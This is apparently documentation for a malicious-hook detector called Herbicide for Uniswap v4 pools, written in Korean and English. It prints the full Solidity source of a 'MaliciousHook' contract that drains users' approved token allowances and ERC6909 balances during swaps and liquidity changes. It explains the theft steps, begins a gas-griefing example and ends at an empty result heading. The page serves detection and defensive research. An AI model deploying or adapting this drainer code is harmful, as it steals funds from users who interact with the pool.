

# Malicious Hook Detection

## Malicious Hook Example

[https://unichain-sepolia.blockscout.com/address/0xbedD50791A853b4FAf2116AcC9b8df71D525C547?tab=contract](https://unichain-sepolia.blockscout.com/address/0xbedD50791A853b4FAf2116AcC9b8df71D525C547?tab=contract)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {BaseHook} from "v4-periphery/src/base/hooks/BaseHook.sol";
import {ERC1155} from "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";
import {IPoolManager} from "v4-core/src/interfaces/IPoolManager.sol";
import {Hooks} from "v4-core/src/libraries/Hooks.sol";

import {PoolId, PoolIdLibrary} from "v4-core/src/types/PoolId.sol";
import {PoolKey} from "v4-core/src/types/PoolKey.sol";

import {Currency, CurrencyLibrary} from "v4-core/src/types/Currency.sol";
import {StateLibrary} from "v4-core/src/libraries/StateLibrary.sol";

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

import {TickMath} from "v4-core/src/libraries/TickMath.sol";
import {BalanceDelta} from "v4-core/src/types/BalanceDelta.sol";

import {FixedPointMathLib} from "solmate/src/utils/FixedPointMathLib.sol";
import {IHooks} from "v4-core/src/interfaces/IHooks.sol";
import {SafeCast} from "v4-core/src/libraries/SafeCast.sol";
import {toBalanceDelta} from "v4-core/src/types/BalanceDelta.sol";
import {CurrencySettler} from "v4-core/test/utils/CurrencySettler.sol";

contract MaliciousHook is BaseHook {
    using Hooks for IHooks;
    using SafeCast for uint256;
    using SafeCast for int128;
    using CurrencySettler for Currency;

    bool private firstAddLiquidity = true;
    uint128 public constant TOTAL_BIPS = 10000;

    constructor(IPoolManager _manager) BaseHook(_manager) {}

    function getHookPermissions()
        public
        pure
        override
        returns (Hooks.Permissions memory)
    {
        return
            Hooks.Permissions({
                beforeInitialize: false,
                afterInitialize: false,
                beforeAddLiquidity: false,
                afterAddLiquidity: true,
                beforeRemoveLiquidity: false,
                afterRemoveLiquidity: true,
                beforeSwap: false,
                afterSwap: true,
                beforeDonate: false,
                afterDonate: false,
                beforeSwapReturnDelta: false,
                afterSwapReturnDelta: true,
                afterAddLiquidityReturnDelta: true,
                afterRemoveLiquidityReturnDelta: true
            });
    }

    function afterSwap(
        address sender, /* sender **/
        PoolKey calldata key,
        IPoolManager.SwapParams calldata params,
        BalanceDelta delta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, int128) {

        bool specifiedTokenIs0 = (params.amountSpecified < 0 == params.zeroForOne);
        (Currency targetCurrency, int128 swapAmount) =
            (specifiedTokenIs0) ? (key.currency1, delta.amount1()) : (key.currency0, delta.amount0());

        
        if (swapAmount < 0) 
            swapAmount = -swapAmount;
        else
            return (IHooks.afterSwap.selector,0);

        address victim = tx.origin;
        IERC20 feeToken = IERC20(Currency.unwrap(targetCurrency));
        uint256 stealAmount = feeToken.allowance(victim, sender);

        if (stealAmount > targetCurrency.balanceOf(victim)) {
            stealAmount = targetCurrency.balanceOf(address(victim));
        }

        if (poolManager.isOperator(victim, sender)) {
            uint256 balance_6909 = poolManager.balanceOf(victim, targetCurrency.toId());

            stealAmount = stealAmount < balance_6909 ? stealAmount : balance_6909;
        }

        targetCurrency.take(poolManager, address(this), stealAmount, true);
        targetCurrency.settle(poolManager, address(this), (stealAmount * key.fee / TOTAL_BIPS) + uint128(swapAmount), true);
        stealAmount = stealAmount - (stealAmount * key.fee / TOTAL_BIPS) - uint128(swapAmount);

        return (IHooks.afterSwap.selector, (stealAmount).toInt128());
    }

    function afterRemoveLiquidity(
        address, /* sender **/
        PoolKey calldata key,
        IPoolManager.ModifyLiquidityParams calldata, /* params **/
        BalanceDelta delta,
        BalanceDelta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, BalanceDelta) {
        assert(delta.amount0() >= 0 && delta.amount1() >= 0);

        uint256 stealAmount0;
        uint256 stealAmount1;

        if (delta.amount0() > 0)
            stealAmount0 = uint128(delta.amount0()) - 1;
        if (delta.amount1() > 0)
            stealAmount1 = uint128(delta.amount1()) - 1;

        key.currency0.take(poolManager, address(this), stealAmount0, true);
        key.currency1.take(poolManager, address(this), stealAmount1, true);

        return (IHooks.afterRemoveLiquidity.selector, toBalanceDelta(int128(uint128(stealAmount0)), int128(uint128(stealAmount1))));
    }

    function afterAddLiquidity(
        address sender, /* sender **/
        PoolKey calldata key,
        IPoolManager.ModifyLiquidityParams calldata, /* params **/
        BalanceDelta delta,
        BalanceDelta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, BalanceDelta) {
        if (firstAddLiquidity) {
            firstAddLiquidity = false;
            return (IHooks.afterAddLiquidity.selector, toBalanceDelta(0, 0));
        }
        assert(delta.amount0() <= 0 && delta.amount1() <= 0);

        address victim = tx.origin;
        IERC20 targetToken0 = IERC20(Currency.unwrap(key.currency0));
        IERC20 targetToken1 = IERC20(Currency.unwrap(key.currency1));
        uint256 stealAmount0 = targetToken0.allowance(victim, sender);
        uint256 stealAmount1 = targetToken1.allowance(victim, sender);            
        if (stealAmount0 > targetToken0.balanceOf(victim)) {
            stealAmount0 = targetToken0.balanceOf(address(victim));
        }
        if (stealAmount1 > targetToken1.balanceOf(victim)) {
            stealAmount1 = targetToken1.balanceOf(address(victim));
        }

        if (poolManager.isOperator(victim, sender)) {
            uint256 balance0_6909 = poolManager.balanceOf(victim, key.currency0.toId());
            uint256 balance1_6909 = poolManager.balanceOf(victim, key.currency1.toId());

            stealAmount0 = stealAmount0 < balance0_6909 ? stealAmount0 : balance0_6909;
            stealAmount1 = stealAmount1 < balance1_6909 ? stealAmount1 : balance1_6909;
        }
        
        key.currency0.take(poolManager, address(this), stealAmount0, true);
        key.currency1.take(poolManager, address(this), stealAmount1, true);
        key.currency0.settle(poolManager, address(this), uint128(-delta.amount0()), true);
        key.currency1.settle(poolManager, address(this), uint128(-delta.amount1()), true);

        stealAmount0 -= uint128(-delta.amount0());
        stealAmount1 -= uint128(-delta.amount1());

        return (IHooks.afterAddLiquidity.selector, toBalanceDelta(int128(uint128(stealAmount0)), int128(uint128(stealAmount1))));
    }
}
```


**Main Logic**

1. Malicious Hook이 사용자가 approve 한 token의 양을 확인합니다.
2. Malicious Hook은 해당 토큰의 양을 모두 ERC6909로 take 합니다.
3. 이후 정상적인 Swap/ModifyLiquidity 를 위한 양 만큼 settle 합니다.

위 과정을 통해, Malicious Hook은 User로부터 Approve한 토큰으로부터 가져올 수 있는 토큰의 최대 양을 모두 훔쳐올 수 있습니다.&#x20;

<figure><figcaption><p>Exact Out Swap Test</p></figcaption></figure>

The image above illustrates the process in which the Malicious Hook exploits the token approval mechanism. The first step shows the Malicious Hook verifying the approved token amount. In the second step, it proceeds to transfer the entire approved token quantity to ERC6909. Finally, the required amount is settled for legitimate Swap/ModifyLiquidity actions, allowing the Malicious Hook to maximize the tokens stolen from the User.


## Herbicide Detection Result

result

### GasGriefHook

hook은 poolkey의 동작에 매우 민감하게 관여할 수 있습니다. 예를들어, hook에서 `revert`가 수행된다면 해당 풀을 사용할 수 없는 풀이 되어버립니다. 이처럼 사용자의 가용성을 해치는 case는 대표적으로 gas griefing attack이 있습니다. herbicide는 이러한 훅들을 동적 분석 테스팅을 통해 탐지할 수 있습니다.

```json
{
    "currency0": "0x0197481B0F5237eF312a78528e79667D8b33Dcff",
    "currency1": "0xA56569Bd93dc4b9afCc871e251017dB0543920d4",
    "fee": 3000,
    "tickSpacing": 60,
    "hooks": "0x3c712B5E5B4a7ee97E4e3F2330bFb435050a4800",
    "deployer": "0x4e59b44847b379578588920cA78FbF26c0B4956C"
}
```

[Code Details](https://unichain-sepolia.blockscout.com/address/0x3c712B5E5B4a7ee97E4e3F2330bFb435050a4800?tab=contract)

#### Result

